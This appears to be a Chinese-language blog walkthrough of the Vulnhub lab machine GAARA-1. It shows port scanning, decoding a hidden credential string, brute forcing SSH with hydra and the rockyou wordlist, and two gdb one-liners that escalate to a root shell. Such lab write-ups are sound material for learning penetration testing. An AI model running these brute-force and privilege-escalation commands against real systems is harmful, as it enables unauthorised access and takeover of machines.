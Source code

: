```yaml
---

title: Vulnhub	629 GAARA-1
date: 2020-12-13
---
```

考点：hydra,gdb

靶机链接：<https://www.vulnhub.com/entry/gaara-1,629/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GAARA-1    | 10.0.2.31 |

## 初步打点

### 端口扫描


```bash
$ export rip=10.0.2.31
$ sudo nmap -v  -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)

```

### WEB测试

![1](https://static.iihack.com/vulnhub/629/1.jpg)

获得目录`/Cryoserver`

![2](https://static.iihack.com/vulnhub/629/2.jpg)

获得三个目录，分别访问找信息

![3](https://static.iihack.com/vulnhub/629/3.jpg)

发现特殊字符串

![4](https://static.iihack.com/vulnhub/629/4.jpg)

上cyberchef试了试base58解密得到 `gaara:ismyname` ，然而ssh直接登录失败。

## 获得权限

暴力破解用户`gaara`的密码

```bash
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -f 10.0.2.31 ssh -t 50
[DATA] attacking ssh://10.0.2.31:22/
[22][ssh] host: 10.0.2.31   login: gaara   password: iloveyou2
[STATUS] attack finished for 10.0.2.31 (valid pair found)
```

![5](https://static.iihack.com/vulnhub/629/5.jpg)

## 提权

上`linpeas.sh`

![6](https://static.iihack.com/vulnhub/629/6.jpg)

果断上[gtfobins](https://gtfobins.github.io/gtfobins/gdb/) 构建了两条python利用链

```bash
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

```

![7](https://static.iihack.com/vulnhub/629/7.jpg)

